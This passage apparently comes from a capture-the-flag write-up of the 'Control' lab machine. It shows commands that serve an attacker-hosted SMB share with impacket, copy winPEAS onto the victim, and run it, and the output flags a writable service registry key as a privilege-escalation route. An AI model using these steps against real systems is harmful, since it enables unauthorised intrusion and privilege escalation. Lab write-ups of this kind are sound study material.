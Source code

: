 ```bash
impacket-smbserver smbFold $(pwd) -smb2support -username oldboy -password oldboy123
```

> **Victime Machine**:

```cmd
net use x: \\10.10.14.5\smbFold /u:oldboy oldboy123
dir x:\
copy x:\winPEAS.exe .\winPEAS.exe
```

<br />
<img src="{{ site.img_path }}/control_writeup/Control_61.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_62.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_63.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/control_writeup/Control_64.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_65.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_66.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I run `winPEAS.exe` and start my meticulous work to find possible attack vectors that allow me to **Escalate Privileges**, I find a lot of interesting information but the most important thing I found is that I have the ability to modify **service registry**, this may be a possible attack vector that I need.

> **Victime Machine**:

```cmd
.\winPEAS.exe
# PS history file: C:\Users\Hector\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
# File: C:\Program Files\Internet Explorer\iexplore.exe %1 (Unquoted and Space detected) - C:\
# Looking if you can modify any service registry
# HKLM\system\currentcontrolset\services\seclogon (Hector [Allow: FullControl])     :)
```

<br />
<img src="{{ site.img_path }}/control_writeup/Control_67.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_68.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_69.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_70.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

